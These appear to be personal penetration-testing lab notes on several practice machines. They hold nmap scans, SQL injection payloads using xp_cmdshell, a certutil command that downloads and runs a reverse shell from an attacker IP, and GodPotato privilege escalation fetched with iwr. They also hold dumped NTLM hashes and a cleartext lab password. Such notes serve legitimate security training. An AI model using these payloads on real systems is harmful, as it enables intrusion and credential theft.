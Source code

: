 # VM 3
- ?
- ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
    |   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
    |_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
    80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
    |_http-title: PAW! (PWK Awesome Website)
    |_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  ```
## Foothold


# VM 4 (pwned)
- Web02
- Microsoft Windows Server 2022 Standard
- 10.0.20348 N/A Build 20348

## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.219/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.155/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ``` 
            Version: NetNTLMv2
            Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000
      ```
    2. Joe 
      ```
        Authentication Id : 0 ; 283886 (00000000:000454ee)
        Session           : Service from 0
        User Name         : joe
        Domain            : MEDTECH
        Logon Server      : DC01
        Logon Time        : 4/8/2024 12:06:58 PM
        SID               : S-1-5-21-976142013-3766213998-138799841-1106
                msv :
                [00000003] Primary
                * Username : joe
                * Domain   : MEDTECH
                * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
                * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
                * DPAPI    : 58de53296298ce0f98087ae902c88735
                tspkg :
                wdigest :
                * Username : joe
                * Domain   : MEDTECH
                * Password : (null)
                kerberos :
                * Username : joe
                * Domain   : MEDTECH.COM
                * Password : Flowers1
                ssp :
                credman :
                cloudap :
        ```

# VM 5
- ?
- ```
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
    |_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
    1194/tcp open  openvpn?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
